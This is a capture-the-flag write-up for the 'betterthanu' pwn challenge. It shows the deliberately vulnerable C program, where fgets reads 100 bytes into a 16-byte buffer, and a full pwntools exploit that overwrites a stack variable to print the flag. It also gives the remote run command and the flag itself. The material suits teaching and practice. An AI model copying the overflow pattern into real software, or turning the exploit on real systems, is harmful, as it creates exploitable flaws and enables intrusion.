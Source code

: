 # osu!gaming CTF > pwn > betterthanu

The binary comprises **two** user inputs, one prompting the user to input their earned `pp` and the other asking for any **"last words"**. Both inputs are stored in the character array `char buf[16]`. Subsequently, the binary calculates the value of `pp` as the user-provided value plus 1.

In the initial `if` statement, the program checks if the calculated value `my_pp` (which is the input value of `pp` + 1) is not **greater** than the original user-provided `pp`. If this condition is not met, it proceeds to another `if` statement. Here, it verifies whether the user-entered value of `pp` is exactly `727`. If this condition is satisfied, the program prints the flag.

The C code of the binary challenge:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

FILE *flag_file;
char flag[100];

int main(void) {
    unsigned int pp;
    unsigned long my_pp;
    char buf[16];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("How much pp did you get? ");
    fgets(buf, 100, stdin);
    pp = atoi(buf);

    my_pp = pp + 1;

    printf("Any last words?\n");
    fgets(buf, 100, stdin);

    if (pp <= my_pp) {
        printf("Ha! I got %d\n", my_pp);
        printf("Maybe you'll beat me next time\n");
    } else {
        printf("What??? how did you beat me??\n");
        printf("Hmm... I'll consider giving you the flag\n");

        if (pp == 727) {
            printf("Wait, you got %d pp?\n", pp);
            printf("You can't possibly be an NPC! Here, have the flag: ");

            flag_file = fopen("flag.txt", "r");
            fgets(flag, sizeof(flag), flag_file);
            printf("%s\n", flag);
        } else {
            printf("Just kidding!\n");
        }
    }

    return 0;
}
```

The goal is to control the values compared in both `if` statements, overwriting the values in the stack via a **buffer overflow**.

### Exploit
```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw, env={"LD_PRELOAD": "/bin/bash"})
    elif args.REMOTE: # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
'''.format(**locals())

exe = "./challenge"
elf = context.binary = ELF(exe, checksec=False)

io = start()
io.sendline(b"foo")

offset = 16
payload = flat({
    offset: [
        b'\x00' * 12, 
        p32(0x02d7)  
    ]
})

io.sendline(payload)

io.recvuntil(b"Wait, you got 727 pp?\n")
flag_line = io.recvline().decode().strip()
start_index = flag_line.find("osu{")

flag = flag_line[start_index:]
log.success(f"Flag: {flag}")
```

In order to run the exploit and get the actual flag, we can pass the remote server and port as `REMOTE` arguments in the same script, as the pwntools template enables us to do (i.e. `python3 solve.py REMOTE chal.osugaming.lol 7279`)

Flag: `osu{i_cant_believe_i_saw_it}`
